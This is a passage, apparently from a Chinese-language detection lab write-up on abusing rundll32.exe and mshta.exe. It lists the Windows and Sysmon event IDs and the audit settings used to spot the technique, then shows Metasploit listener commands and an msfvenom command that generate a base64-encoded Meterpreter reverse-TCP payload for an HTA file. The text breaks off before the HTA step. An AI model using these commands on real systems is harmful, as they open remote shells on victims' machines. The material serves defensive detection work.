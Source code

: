 ## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`rundll32.exe`、`mshta.exe`或子进程的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录`rundll32.exe`的出站网络活动。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`rundll32.exe`和`mshta.exe`的命令行及父进程信息。
  - Event ID 3：网络连接，记录`rundll32.exe`或`mshta.exe`的HTTP请求。
  - Event ID 7：镜像加载，记录`url.dll`的加载。

**日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。

## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows 7，IP：192.168.126.149，Sysmon已部署
- **工具**：Metasploit，`msfvenom`

### 测试过程

#### 1. 配置Metasploit监听（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.126.146
set LPORT 4444
exploit
```

**说明**：
- 配置反向TCP Shell监听，等待靶机连接。

#### 2. 生成Payload（攻击机）

**命令**：
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f raw > shell.bin
cat shell.bin | base64 -w 0
```

**说明**：
- 生成Meterpreter反向TCP Payload，格式为raw。
- 将Payload转换为Base64编码，供HTA文件使用。

#### 3. 创建HTA文件（攻击机）
